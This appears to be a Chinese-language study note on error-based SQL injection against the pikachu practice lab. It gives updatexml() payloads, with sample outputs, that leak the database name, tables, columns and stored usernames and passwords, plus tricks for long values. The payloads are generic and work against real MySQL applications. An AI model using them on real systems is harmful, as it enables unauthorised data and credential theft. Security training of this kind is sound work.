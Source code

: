 # 报错注入

---

（本案例使用pikachu靶场）

报错显示限制一般为32位



## 判断注入

name='

name=' or 1=1

name=' or 1=2

## 判断闭合符

```
看报错信息：自己输入的数据后面接着符号就是闭合符，也可能没有
'' ) 
```



## payload

```
name=' or updatexml(1,concat(0x7e,(注入语句或者函数),0x7e),0) or ' --
```

一般开头符号闭合，后面符号闭合或者注释符（-- ）注释后面语句，本次案例为or ’ 闭合后面

（报错注入查询的结果有限制 使用limit 第n个开始，只显示n个）

## 查询数据库信息

```
name=' or updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),0) or '
---
出现：（0x7e为~，使用database()查询当前使用的数据库名）如果后面显示不出来就单个单个的查询
XPATH syntax error: '~pikachu~kobe~D:/phpstudy/'
```



## 查询当前数据库的表（找users表）

```
name=' or updatexml(0,concat(0x7e,(select concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1),0x7e),0)  or '   
---
出现：
XPATH syntax error: '~httpinfo~'
```





## 查询表字段 （找user表的字段）

```
name=' or updatexml(0,concat(0x7e,(select concat(column_name) FROM information_schema.columns WHERE table_name="表名" limit 0,1),0x7e),0)  or '
---
出现：
XPATH syntax error: '~USER~'
```





## 查询表数据 （找user的用户名和密码）

```
name=' or updatexml(1,concat(0x7e,(select concat(字段名) from 表名 limit 0,1 ),0x7e),0) or '
---
出现：
XPATH syntax error: '~admin~'
```

## 如果输出的字符太长

```
1.反转（REVERSE（字符串））
' or updatexml(1,concat(0x7e,(select concat(REVERSE(字段名)) from 表名 limit 0,1 ),0x7e),0) or ' 
2.切割（substr(切割字符串,开始位置,切割长度)）
' or updatexml(1,concat(0x7e,(select concat(substr(字段名,5,10)) from 表名 limit 0,1 ),0x7e),0) or ' 


```



